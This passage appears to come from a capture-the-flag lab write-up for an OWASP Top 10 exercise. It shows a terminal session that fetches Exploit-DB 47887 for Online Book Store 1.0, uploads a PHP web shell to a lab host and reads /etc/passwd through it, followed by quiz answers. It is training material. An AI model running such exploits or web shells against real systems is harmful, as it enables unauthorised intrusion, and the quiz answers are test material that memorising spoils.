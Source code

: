```
└─# searchsploit -m 47887                                                                                                                                                                                       2 ⨯
  Exploit: Online Book Store 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47887
     Path: /usr/share/exploitdb/exploits/php/webapps/47887.py
File Type: ASCII text

Copied to: /root/47887.py


┌──(root💀kali)-[~]
└─# python3 47887.py http://<machine ip>/                                                                                                                                                                      1 ⨯
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.144.143/bootstrap/img/ICf1PQsfYy.php
> Example command usage: http://10.10.144.143/bootstrap/img/ICf1PQsfYy.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ wc -c /etc/passwd
1611 /etc/passwd
```
> *Answer:* 1611


<br><br>
# [Severity 10] Insufficient Logging and Monitoring

### What IP address is the attacker using?
> *Answer:* 49.99.13.16

### What kind of attack is being carried out?
> *Answer:* brute force

